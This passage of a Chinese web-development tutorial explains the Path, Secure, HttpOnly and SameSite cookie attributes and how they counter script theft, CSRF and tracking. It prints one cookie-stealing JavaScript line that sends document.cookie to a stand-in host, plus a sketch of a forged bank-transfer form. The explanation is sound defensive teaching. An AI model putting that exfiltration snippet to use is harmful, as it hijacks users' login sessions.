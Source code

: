 `Path`属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，`Path`属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，`PATH`属性是`/`，那么请求`/docs`路径也会包含该 Cookie。当然，前提是域名必须一致。



#### 3.3 Secure 加密协议https下有效，HttpOnly 只有http请求能拿到

`Secure`属性指定**浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器**。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的`Secure`属性。该属性只是一个开关，**不需要指定值**。如果通信是 HTTPS 协议，该开关自动打开。

`HttpOnly`属性**指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是`document.cookie`属性、`XMLHttpRequest`对象和 Request API 都拿不到该属性**。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的`HttpOnly`属性，上面代码就不会读到该 Cookie。



#### 3.4 SameSite 防止 CSRF 攻击和用户追踪

Chrome 51 开始，浏览器的 Cookie 新增加了一个`SameSite`属性，用来**防止 CSRF 攻击和用户追踪**。

Cookie 往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 Cookie 的 HTTP 请求，这就是 CSRF 攻击。举例来说，用户登陆了银行网站`your-bank.com`，银行服务器发来了一个 Cookie。

```
Set-Cookie:id=a3fWa;
```

用户后来又访问了恶意网站`malicious.com`，上面有一个表单。

```html
<form action="your-bank.com/transfer" method="POST">
  ...
</form>
```

用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 Cookie 的请求。为了防止这种攻击，表单一般都带有一个随机 token，告诉服务器这是真实请求。

```html
<form action="your-bank.com/transfer" method="POST">
  <input type="hidden" name="token" value="dad3weg34">
  ...
</form>
```

这种第三方网站引导发出的 Cookie，就称为第三方 Cookie。它除了用于 CSRF 攻击，还可以用于用户追踪。比如，Facebook 在第三方网站插入一张看不见的图片。

```html
<img src="facebook.com" style="visibility:hidden;">
```

浏览器加载上面代码时，就会向 Facebook 发出带有 Cookie 的请求，从而 Facebook 就会知道你是谁，访问了什么网站。

Cookie 的`SameSite`属性用来限制第三方 Cookie，从而减少安全风险。它可以设置三个值。

> - Strict
> - Lax
> - None
